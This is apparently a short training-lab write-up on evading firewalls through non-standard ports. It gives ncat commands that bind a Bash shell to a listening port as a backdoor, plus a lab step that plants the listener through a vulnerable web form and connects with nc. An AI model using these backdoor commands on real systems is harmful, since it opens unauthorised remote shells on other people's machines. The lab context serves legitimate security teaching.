 # Evasion using non-standard ports

To create a backdoor via the specified port number that lets you interact with the Bash shell:

    ncat -lvnp PORT_NUMBER -e /bin/bash

Considering the case that we have a firewall, it is not enough to use ncat to create a backdoor unless we can 
connect to the listening port number. And unless we run ncat as a privileged user, root, or using sudo, we cannot 
use port numbers below 1024.

## Lab

Use the vulnerable web-form to set up an `ncat` listener. Knowing that the firewall does not block packets to 
destination port `8081`, use ncat to listen for incoming connections and execute Bash shell. Connect to the shell from 
the attack machine. What is the username associated with which you are logged in?

On Target (`http://TARGET_IP:8080`), run an ncat listener:

    ncat -lvnp 8081 -e /bin/bash

Then on the attacker machine connected to THM VPN, connect through `nc`:

    nc TARGET_IP 8081

Ask `whoami`.

